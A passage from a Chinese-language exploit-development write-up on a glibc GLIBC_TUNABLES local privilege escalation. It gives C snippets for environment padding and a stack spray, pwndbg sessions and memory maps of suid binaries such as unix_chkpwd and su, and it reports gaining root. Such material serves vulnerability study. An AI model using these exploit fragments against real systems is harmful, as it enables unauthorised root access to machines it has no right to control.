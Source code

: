 这样，我们就需要在前面填充 0x1F0 字节，那怎么填充呢？可以利用开头填充上一块堆的思路。  
```
#define PADDING_SIZE 0x1F0char padding[PADDING_SIZE-3];strcpy(padding, "GLIBC_TUNABLES=");for (int i = strlen(padding); i < (PADDING_SIZE - 4); i++){        padding[i] = 'D';}padding[PADDING_SIZE - 4] = '\0';envp[ENVP_SIZE-2] = padding;
```  
  
调试看看：  
```
pwndbg> b *(_dl_new_object+115)pwndbg> cpwndbg> p ((struct link_map *) $rax)->l_info[15]$2 = (Elf64_Dyn *) 0x404028
```  
  
内存布局没问题，这个时候就删除断点直接运行试试。发现成功执行命令，接着就是退出 gdb，直接执行我们的 exp 程序，成功获取到 root 权限。  
  
**5.1 结合实际**  
  
前面的内容帮我们把利用思路都给梳理好了，但是和实际还是有差距的，因为在实际环境中，不存在一个test  
程序， 这个我们测试用的test  
程序是没有开PIE  
的，所以我们写入0x404028  
地址，可以稳定触发。  
  
我查找了 ubuntu 的实际程序，所有suid  
的程序都开启 PIE 保护，也就是说，我们没有一个已知地址。我又查看了内存布局，在执行ld  
代码的时候，内存布局大致如下：  
```
pwndbg> vmmap    0x55985479c000     0x55985479e000 r--p     2000 0      /usr/sbin/unix_chkpwd    0x55985479e000     0x5598547a1000 r-xp     3000 2000   /usr/sbin/unix_chkpwd    0x5598547a1000     0x5598547a2000 r--p     1000 5000   /usr/sbin/unix_chkpwd    0x5598547a2000     0x5598547a4000 rw-p     2000 5000   /usr/sbin/unix_chkpwd    0x7faf282aa000     0x7faf282ac000 r--p     2000 0      /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2    0x7faf282ac000     0x7faf282d6000 r-xp    2a000 2000   /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2    0x7faf282d6000     0x7faf282e1000 r--p     b000 2c000  /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2    0x7faf282e2000     0x7faf282e6000 rw-p     4000 37000  /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2    0x7ffd042d5000     0x7ffd042f6000 rw-p    21000 0      [stack]    0x7ffd0439e000     0x7ffd043a2000 r--p     4000 0      [vvar]    0x7ffd043a2000     0x7ffd043a4000 r-xp     2000 0      [vdso]0xffffffffff600000 0xffffffffff601000 --xp     1000 0      [vsyscall]
```  
  
我们只能确定vsyscall  
地址，但是很抱歉，该地址没有可读权限，所以没办法利用。在没有已知地址的情况下，这个时候能想到的只有内存 Spray 了，比较合适的是 Stack Spray。  
  
所以考虑通过环境变量来在栈上填充-0x14UL  
，代码如下：  
```
#define STACK_SIZE 0x20000char stack_spray[STACK_SIZE];for (int i = 0; i < STACK_SIZE; i += 8){    *(uintptr_t *)(stack_spray + i) = -0x14ULL;}stack_spray[STACK_SIZE - 1] = '\0';for (int i = 0; i < 0x2F; i++){    envp[0x180 + i] = stack_spray;}
```  
  
一般情况下可能会报错：execve("/usr/bin/su", ["/usr/bin/su", "--help"], 0x7fff64f33a50 /* 499 vars */) = -1 E2BIG (Argument list too long)  
  
可以在 execve 前调用一下下方代码，可以让缓冲区扩大到：0x20000 * 0x2F  
:  
```
    struct rlimit rlim = {RLIM_INFINITY, RLIM_INFINITY};  if (setrlimit(RLIMIT_STACK, &rlim) < 0)  {    perror("setrlimit");  }
```  
  